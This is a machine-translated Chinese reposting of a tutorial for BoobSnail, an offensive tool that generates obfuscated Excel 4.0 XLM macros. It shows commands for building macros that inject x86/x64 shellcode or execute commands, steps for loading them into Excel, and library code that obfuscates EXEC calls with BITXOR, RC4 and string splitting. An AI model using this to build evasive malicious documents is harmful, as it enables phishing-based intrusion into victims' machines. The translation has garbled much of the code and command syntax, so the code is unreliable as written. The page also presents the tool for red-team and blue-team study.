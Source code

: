 # 允许生成 Excel 4.0 XLM 宏

> 原文：<https://kalilinuxtutorials.com/boobsnail/>

[![](img//ca5d45694e05a4c33daafdf4c0f4a468.png)](https://1.bp.blogspot.com/-h292nklevH0/YULRmfmgEuI/AAAAAAAAK2o/3UOgYegHPu4l8zlJEcbZr4wnSpMdlnoBwCLcBGAsYHQ/s728/boobsnail%2B%25281%2529.png)

**BoobSnail** 允许生成 XLM (Excel 4.0)宏。其目的是支持 XLM 宏代中的 RedTeam 和 BlueTeam。特点:

*   各种感染技术；
*   各种混淆技术；
*   将公式翻译成英语以外的语言；
*   可以用作一个库——你可以很容易地编写自己的生成器。

**建造和运行**

测试于:Python 3.8.7rc1

**pip install-r requirements . txt
python boobsnail . py
。。*.._*
_ |*_ | _*/*/| | | | | \/_ | _*\/_ _ \ | |
| _ \(<_>|<_>)_ \ \/\ | \/*_ | | |*|
| _/_/_/_/| _/*/*(*)***

**发电机使用情况**

**python boobsnail.py -h**

要显示可用的生成器，请键入:

**python boobsnail.py**

**例题**

生成插入 x64 或 x86 外壳代码的混淆宏:

**python boob snail . py excel 4 ntdonutgenerator–input x86–input x64–out boob snail . CSV**

生成运行 calc.exe 的模糊宏:

**python boob snail . py excel 4 exec generator–cmd " powershell . exe-c calc . exe "-out boob snail . CSV**

**在 Excel 中保存输出**

*   将输出转储到 CSV 文件。
*   复制 CSV 文件的内容。
*   运行 Excel 并创建一个新工作表。
*   添加新的 Excel 4.0 宏(右键单击 Sheet1 ->插入-> MS Excel 4.0 宏)。
*   粘贴单元格 A1 或 R1C1 中的内容。
*   单击数据->文本到列。
*   单击下一步->将分号设置为分隔符，然后单击完成。

**库用法**

BoobSnail 共享 excel4lib 库，允许创建自己的 Excel4 宏生成器。excel4lib 包含一些在编写生成器时可以使用的类:

*   Excel4 lib . macro . excel 4 macro–允许定义 excel 4 公式、值变量。
*   excel 4 lib . macro . obfuscator . excel 4 obfuscator–允许对 Excel4Macro 中创建的指令进行模糊处理；
*   excel 4 lib . lang . excel 4 translator–允许将公式翻译成另一种语言。

这个库的主要思想是将 Excel4 公式、变量、公式参数和值表示为 python 对象。因此，您可以更改指令属性，如公式或变量名称、值、地址等。以一种简单的方式。例如，让我们创建一个运行 calc.exe 的简单宏

**从 excel4lib.macro 导入*
#创建宏对象
macro = excel 4 macro(" test . CSV ")
#将值为" calc.exe "的名为 cmd 的变量添加到工作表中
cmd = macro.variable("cmd "，" calc . exe ")
#添加带参数的 EXEC 公式 cmd
macro.formula("EXEC "，cmd)
#转储到 CSV
print(macro . to _ CSV())**

结果:

**cmd = " calc . exe "；
= EXEC(cmd)；**

现在让我们假设你想混淆你的宏。为此，您只需导入混淆器并将其传递给 Excel4Macro 对象:

**从 excel4lib.macro 导入*
从 excel4lib.macro.obfuscator 导入*
#创建宏对象
macro = Excel4Macro("test.csv "，obfuscator = excel 4 obfuscator())
#将名为 cmd 且值为" calc.exe "的变量添加到工作表中
cmd = macro.variable("cmd "，" calc . exe ")
#添加带参数的 EXEC 公式 cmd
macro.formula("EXEC "，cmd)
。**

目前，excel4lib 共享两个混淆类:

*   Excel 4 lib . macro . obfuscator . Excel 4 obfuscator 使用 BITXOR、SUM 等 Excel 4.0 函数对您的宏进行模糊处理；
*   excel 4 lib . macro . obfuscator . excel 4 RC obfuscator 使用 RC4 加密来隐藏公式。

如你所见，你可以编写自己的混淆器类，并在 Excel4Macro 中使用。

有时你需要把你的宏翻译成另一种语言，例如你的母语，在我的例子中是波兰语。使用 excel4lib 非常简单。只需要导入 Excel4Translator 类，调用 set_language 即可。

**from excel 4 lib . macro import *
from excel 4 lib . lang . excel 4 _ translator import *
# Change language
excel 4 translator . set _ language(" PL _ PL ")
# Create macro object
macro = excel 4 macro(" test . CSV "，obfuscator = excel 4 obfuscator())
#将名为 cmd 且值为" calc.exe "的变量添加到工作表中
cmd = macro.variable("cmd "，" calc.exe")** 

结果:

**cmd =‘calc . exe’：
=运行程序(cmd)；**

目前，只支持英语和波兰语。如果您想使用另一种语言，您需要在 excel4lib/lang/langs 目录中添加翻译。

当然，您将需要创建一个将另一个公式作为参数的公式。您可以通过使用 Excel4Macro.argument 函数来实现这一点。

**从 excel4lib.macro 导入*
macro = excel 4 macro(" test . CSV ")
#将名为 cmd 且值为" calc "的变量添加到工作表中
cmd_1 = macro.variable("cmd "，" calc ")
#添加单元格包含。exe 作为值
cmd_2 = macro.value("。exe ")
#创建连接 cmd_1 和 cmd _ 2
EXEC _ arg = macro . argument(" CONCATENATE "，cmd_1，cmd _ 2)
#将连接调用作为参数传递给 EXEC formula
macro . formula(" EXEC "，EXEC _ arg)
# Dump to CSV
print(macro . to _ CSV())**

结果:

**cmd = " calc "；
。exe
=EXEC(CONCATENATE(cmd，r2c 1))；**

如你所见”。exe "字符串作为 R2C1 传递给串联公式。R2C1 是的地址。exe”值(行号 2 和列号 1)。excel4lib 返回对公式的引用，值作为地址。对变量的引用以它们的名称返回。您可能已经注意到，Excel4Macro 类会按照对象创建的顺序自动将公式、变量、值添加到工作表中，并且起始地址是 R1C1。如果您想将公式放在另一列或另一行中，该怎么办？可以通过调用 Excel4Macro.set_cords 函数来实现。

**从 excel4lib.macro 导入***
**macro = excel 4 macro(" test . CSV ")
#第 1 列
#向工作表添加名为 cmd 且值为" calc "的变量
cmd_1 = macro.variable("cmd "，" calc ")
#添加单元格包含。exe 作为 value
cmd_2 = macro.value("。exe ")
#第 2 列
#更改第 2 列
macro.set_cords(2，1)
EXEC _ arg = macro . argument(" CONCATENATE "，cmd_1，cmd _ 2)
#将 CONCATENATE 调用作为参数传递给 EXEC formula
EXEC _ call = macro . formula(" EXEC "，EXEC _ arg)
#第 1 列
#返回第 1 列。将跳线更改为第 1 列和第 3 行
macro.set_cords(1，3)
# GOTO EXEC call
macro . GOTO(EXEC _ call)
# Dump to CSV
print(macro . to _ CSV())**

结果:

**cmd = " calc "；=EXEC(CONCATENATE(cmd，r2c 1))；
。exe；
= GOTO(R1 C2)；；**

[**Download**](https://github.com/STMCyber/boobsnail)